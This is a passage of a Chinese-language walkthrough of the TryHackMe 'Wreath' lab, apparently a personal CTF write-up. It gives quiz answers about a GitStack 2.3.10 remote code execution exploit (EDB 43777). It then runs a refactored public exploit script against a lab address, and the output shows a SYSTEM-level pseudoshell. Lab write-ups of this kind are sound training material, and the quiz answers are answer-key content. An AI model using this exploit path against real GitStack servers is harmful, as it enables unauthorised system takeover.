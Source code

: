 有一个远程执行漏洞

> What is the name of the program running the service?

> Gitstack

> Do these default credentials work (Aye/Nay)?

> nay

> There is one Python RCE exploit for version 2.3.10 of the service. What is the EDB ID number of this exploit?

> 43777

# Task 19  Git Server Code Review

> Look at the information at the top of the script. On what date was this exploit written?

> 18.01.2018

> Bearing this in mind, is the script written in Python2 or Python3?

> python2

> Just to confirm that you have been paying attention to the script: What is the name of the cookie set in the POST request made on line 74 (line 73 if you didn't add the shebang) of the exploit?

> csrftoken

# Task 20  Git Server Exploitation

exploit-db的脚本我这边会报错，使用github上[这个脚本](https://github.com/TBernard97/Gitstack-2.3.10-Exploit-Refactor/blob/master/exploit_refactored.py)

拿到shell

```
┌──(root💀kali)-[~/tryhackme/Wreath]
└─# python3 exploit_refactored.py 10.200.101.150
[+] Connected to http://10.200.101.150:80/ successfully.
[*] Creating users on http://10.200.101.150:80/.
[*] Found user twreath
[*] Web repository already created
[*] Getting repository list
[*] Found repo: Website
[*] Adding user twreath to repository
[*] Disabling everyone user access to repository
b'Your GitStack credentials were not entered correcly. Please ask your GitStack administrator to give you a username/password and give you access to this repository. <br />Note : You have to enter the credentials of a user which has at least read access to your repository. Your GitStack administration panel username/password will not work. '

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.
[*] Type 'exit' to exit.

> whoami
"nt authority\system
" 

> hostname
"git-serv

```
